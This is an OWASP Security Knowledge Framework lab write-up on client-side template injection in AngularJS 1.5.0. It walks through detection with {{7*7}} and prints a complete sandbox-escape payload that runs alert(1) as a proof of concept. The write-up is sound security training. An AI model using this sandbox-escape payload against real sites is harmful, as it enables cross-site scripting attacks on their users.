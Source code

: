 # KBID 111 - Client Side Template Injection

## Running the app

```
$ sudo docker pull blabla1337/owasp-skf-lab:csti
```

```
$ sudo docker run -ti -p 127.0.0.1:5000:5000 blabla1337/owasp-skf-lab:csti
```

{% hint style="success" %}
Now that the app is running let's go hacking!
{% endhint %}

## Running the app Python3

First, make sure python3 and pip are installed on your host machine. After installation, we go to the folder of the lab we want to practise "i.e /skf-labs/XSS/, /skf-labs/jwt-secret/ " and run the following commands:

```
$ pip3 install -r requirements.txt
```

```
$ python3 <labname>
```

{% hint style="success" %}
Now that the app is running let's go hacking!
{% endhint %}

![Docker image and write-up thanks to Contrahack.io !](<../../.gitbook/assets/screen-shot-2019-03-04-at-21.33.32 (1).png>)

## Reconnaissance

### Step 1

This application has a very cool interface, powered by a very cool framework that, every time the page is rendered, will scan the page for template expressions and evaluate them.

![](https://github.com/blabla1337/skf-labs/tree/8c1992bae3824fa9d454e4263a20543419265204/../../.gitbook/assets/csti-1.png)

Before we deep dive in the exploitation phase, let's introduce how a template engins renders elements inside the page and how we can detect a Client Side Template Injection. If we look at the `index.html` page in the source code, we can see that a variable `{{CSTI}}` is used in the page

```markup
<center> <p style="font-size:2em;"> {{CSTI}} </p></center>
```

### Step 2

This can look like a XSS, but if we try to inject HTML tags we get a nice print-out from the application. Let's try!

{% hint style="info" %}
We are going to use the same payload of the XSS lab
{% endhint %}

```markup
"><script>alert('XSS')</script>
```

Unfortunately the alert does not trigger :(

![](https://github.com/blabla1337/skf-labs/tree/8c1992bae3824fa9d454e4263a20543419265204/../../.gitbook/assets/csti-2.png)

This is becuase AngularJS sanitize by default the input that will be reflected in the page.

### Step3

{% hint style="warning" %}
How do we get XSS?
{% endhint %}

AngularJS parses and renders every expression between curly brackets. So if we pass an arithmentic expression, such as `{{7*7}}`, we should expect `49` as a result.

![](https://github.com/blabla1337/skf-labs/tree/8c1992bae3824fa9d454e4263a20543419265204/../../.gitbook/assets/csti-3.png)

{% hint style="success" %}
Bingo!!
{% endhint %}

## Exploitation

Now that we know that the frontend is vulnerable to a client side template injection, we want to do more than just printing out nice numbers.

Because Angular uses parsers to evaluate every expression in curly brackets, sanitize HTML values (through ng-bind-html attributes, if explicitly) and uses a sandbox to avoid JavaScript code to call functions outside of the Angular scope object, we need to go though the following steps to have a successful exploit:

- break the sanitizer
- escape the sandbox&#x20;
- forge a working payload&#x20;

In this case, we do not need to find new way to do this, but we can just see if we can re-use a payload available for our version of Angular.

### Step 1

We want to identify wich version is used in the frontend. If we look at the source code we can see that in the `<head>` tag Angular v1.5.0 is loaded.

```markup
<script src="https://ajax.googleapis.com/ajax/libs/angularjs/1.5.0/angular.js"></script>
```

We need a payload that will allow us to inject JavaScript commands in the DOM and escape the sandbox, and, of course, pop up an alert box (just as a PoC)

### Step 2

Looking at possible payloads we found a working one for Angular <= 1.5.0

```javascript
{
  {
    c = "".sub.call;
    b = "".sub.bind;
    a = "".sub.apply;
    c.$apply = $apply;
    c.$eval = b;
    op = $root.$$phase;
    $root.$$phase = null;
    od = $root.$digest;
    $root.$digest = {}.toString;
    C = c.$apply(c);
    $root.$$phase = op;
    $root.$digest = od;
    B = C(b, c, b);
    $evalAsync(
      " astNode=pop();astNode.type='UnaryExpression'; astNode.operator='(window.X?void0:(window.X=true,alert(1)))+'; astNode.argument={type:'Identifier',name:'foo'}; "
    );
    m1 = B($$asyncQueue.pop().expression, null, $root);
    m2 = B(C, null, m1);
    [].push.apply = m2;
    a = "".sub;
    $eval("a(b.c)");
    [].push.apply = a;
  }
}
```

We are not going in the details on how the exploit works, but you can refer to a nice blog post from PortsWigger. What we can say, is that the escape, breaks out of the sandbox (we are not in the scope object anymore) and allows us to execute JS in the DOM itself.

As we can see, our `alert(1)` is present in the payload. If we copy it in our input box we see that the full payload is reflected 'as-it-is', but the JavaScript is executed

![](https://github.com/blabla1337/skf-labs/tree/8c1992bae3824fa9d454e4263a20543419265204/../../.gitbook/assets/csti-4.png)

Now we are able to execute JavaScript code in our DOM.

This would work if we would have used the latest version of Angular and escaped malicious characters.

## Additional sources

{% embed url="https://portswigger.net/blog/dom-based-angularjs-sandbox-escapes" %}

{% embed url="https://docs.angularjs.org/guide/security" %}
